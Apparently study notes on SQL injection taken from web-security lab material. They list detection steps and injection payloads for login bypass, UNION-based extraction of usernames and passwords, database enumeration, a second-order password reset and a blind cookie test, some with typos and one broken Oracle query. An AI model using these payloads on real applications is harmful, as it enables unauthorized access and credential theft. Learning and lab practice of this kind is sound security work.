 
- What is the impact of a successful SQLi attack?

> A successful SQL injection attack can result in unauthorized access to sensitive data, such as passwords, credit card details, or personal user information. \
Many high-profile data breaches in recent years have been the result of SQL injection attacks, leading to reputational damage and regulatory fines. \
In some cases, an attacker can obtain a persistent backdoor into an organization's systems, leading to a long-term compromise that can go unnoticed for an extended period.

- https://portswigger.net/web-security/sql-injection
- https://portswigger.net/web-security/sql-injection/cheat-sheet

# Process
1. Detect
    - -- is comment in SQL
    - Submitting the single quote character ' and looking for errors or other anomalies.
    - Submitting Boolean conditions such as OR 1=1 and OR 1=2, and looking for differences in the application's responses.
2. Exploit
    - Retrieving hidden data
    - Subverting application logic, Login
    - UNION Attack, Retrieving data from other database tables,
    - Examining the database
    - Blind SQLi
    - Second-order SQL injection

# Example
- Retrieving hidden data
    - api       https://insecure-website.com/products?category=Gifts
    - query     SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    - atack
        - https://insecure-website.com/products?category=Gifts'--
        - https://insecure-website.com/products?category=Gifts' OR 1=1--
        - https://insecure-website.com/products?category=Gifts'
- Subverting application logic
    - query     SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
    - attack    admin'--
- UNION Attack
    - What is:
        - SELECT a, b FROM table1 UNION SELECT c, d FROM table2
    - api       https://insecure-website.com/products?category=Gifts
    - query     SELECT name, description FROM products WHERE category = 'Gifts' AND released = 1
    - atack
        - https://insecure-website.com/products?category=Gifts' UNION select username, password from users--
    - SQL injection UNION attack, determining the number of columns returned by the query
        - https://insecure-website.com/products?category=Gifts'ORDER BY 1--
        - https://insecure-website.com/products?category=Gifts'ORDER BY 2--
        - https://insecure-website.com/products?category=Gifts'ORDER BY 3--
        - https://insecure-website.com/products?category=Gifts'ORDER BY 4-- // Error
        - https://insecure-website.com/products?category=Gifts'UNION SELECT NULL, NULL, NULL
        - https://insecure-website.com/products?category=Gifts'UNION select username, password, NULL from users--
        - https://insecure-website.com/filter?category=Gifts'+UNION+SELECT+NULL,username||'~'||password+from+users--
    - Oracle
        - dual table    /filter?category=Accessories'+UNION+SELECT+NULL,NULL+FROM+dual-- 
- Examining the database
    - attack
        - SELECT * FROM v$version
        - SELECT * FROM information_schema.tables
            - /filter?category=Gifts'+UNION+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables-- #users_numere
            - /filter?category=Gifts'+UNION+SELECT+COLUMN_NAME,NULL+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name+=+'users_numere'-- #username_kjovop,password_avppud
    - Oracle
        - /filter?category=Accessories'+UNION+SELECT+banner,NULL+FROM+v$version+UNION+SELECT+SELECT+version,NULL++FROM+v$instance--
        - GET /filter?category=Pets'+UNION+SELECT+TABLE_NAME,'aaa'+FROM+ALL_TABLES-- HTTP/2
        - GET /filter?category=Pets'+UNION+SELECT+COLUMN_NAME,'aaa'+FROM+ALL_TAB_COLUMNS+WHERE+TABLE_NAME='USERS_FPYMQY'-- HTTP/2
        - GET /filter?category=Pets'+UNION+SELECT+USERNAME_ZCCJRT,PASSWORD_ABIHWU+FROM+USERS_FPYMQY-- HTTP/2
    - MS Sql Server
        - /filter?category=Gifts'+UNION+SELECT+@@version,NULL#
- Second-order SQL injection
    - Create user
        - username: user1'; upsate users set password='123456' where user='admin'--
- Blind SQLi
    - cookie TrackingId=E3jzomp8qokGJ8KN' AND '1'='1